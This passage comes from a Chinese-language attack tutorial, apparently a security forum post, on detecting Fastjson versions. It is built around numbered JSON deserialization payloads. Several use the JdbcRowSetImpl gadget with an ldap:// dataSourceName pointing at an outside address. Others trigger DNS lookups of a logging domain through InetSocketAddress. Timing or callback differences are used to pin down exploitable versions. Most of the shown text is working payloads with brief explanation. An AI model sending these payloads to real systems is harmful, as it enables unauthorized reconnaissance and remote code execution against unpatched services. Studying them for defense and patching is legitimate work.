 如果下面比上面响应快，说明版本处于`1.1.16`和`1.2.11`之间。

#### 2.3.2.4 判断1.2.28&lt;=version&lt;=1.2.47

`payload29`（组合拳）：

```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```

```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

如果下面比上面响应快，说明版本处于`1.2.28`和`1.2.47`之间。

#### 2.3.2.5 变种：判断1.2.9&lt;=version&lt;=1.2.11

如果对方用的是`JSON.parseObject`，那么`payload29`还有变种。  
`payload30`（组合拳）：

```json
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```

```json
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

如果下面比上面响应快，说明版本处于`1.2.9`和`1.2.11`之间。

2.4 关键版本探测
----------

### 2.4.1 v1.2.24

直接用`2.3`中所提到的延时判断方法即可。

### 2.4.2 v1.2.47

`payload31`：

```json
{"username":{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}}
```

或者：

```json
[{"@type": "java.lang.Class","val": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}]
```

都是可以的：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-46c32efe1946ac4eb6eecb111aa18919fea65805.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-aa07f1a131c447fd545199c2e04a8fea62616a23.png)
